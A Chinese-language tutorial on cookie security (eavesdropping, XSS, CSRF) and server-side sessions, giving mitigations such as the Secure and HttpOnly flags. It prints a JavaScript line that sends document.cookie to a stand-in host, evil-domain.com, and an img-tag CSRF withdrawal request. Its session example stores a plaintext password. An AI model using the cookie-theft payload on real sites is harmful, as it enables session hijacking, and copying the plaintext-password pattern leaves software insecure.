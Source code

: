 ## cookie的安全问题

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式（如LocalStorage、SessionStorage、indexedDB、Cache Storage等)，Cookie渐渐被淘汰。

cookie主要有以下问题
1. 由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销
1. cookie在客户端也可以通过`document.cookie`来操作，容易造成 XSS 和 CSRF 攻击。
1. 如果单纯用cookie来存储数据，大小和数量都有限制。

**网络窃听**

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP header中Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

**XSS攻击**

Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法比如利用应用程序漏洞进行XSS的攻击：

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
点击网页的某张图片链接时，本地的cookie就会被对方获取到进行分析利用。

解决方法：HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。


**跨站请求伪造CSRF**

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
```
<img src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" > 
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，那么SanShao点击该图片时，浏览器尝试加载该图片，因为图片链接的源与本地保存的cookie的银行网站的域相同，就会带上之前使用银行网站保持的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。

所以网站敏感和重要的数据都不会建议使用cookie来传递。比如登录用户名和密码等，但又需要cookie来保持会话状态，比如登录状态，这时就可以用session来解决这个会话状态保持的问题。

## session

Session，即会话，是Web开发中的一种会话状态跟踪技术。当然，前面所讲述的Cookie也是一种会话跟踪技术。不同的是Cookie是将会话状态保存在了客户端 ，而Session则是将会话状态保存在了服务器端。

那么，到底什么是“会话”?当用户打开浏览器，从发出第一次请求开始 ，一直到最终关闭浏览器，就表示一次会话的完成。

Session无法单独使用，需要配合Cookie完成功能，但比Cookie安全。

举例：原来我们把登录用户名username保持在cookie中，如下面这样：
```js
response.setHeader('Set-Cookie', 'username=tom; max-age=3600')
```
因为安全性，我们使用session来保存用户登录状态，常用做法是：

1. 首次登录请求时，将用户名通过键值对存放在服务器内存中（常用redis存储，redis常称为内存数据库），键就是session_id，值就是用户名，如 `{session_id: 'username=tom&password=123'}`
1. 将这个session_id设置到cookie中保存`response.setHeader('Set-Cookie', 's_id=session_id; max-age=86400')`
1. 后续每次请求都是会带上这个session_id，服务器通过这个session_id在去查找对应的数据，看是否存在，存在则为已登录过。
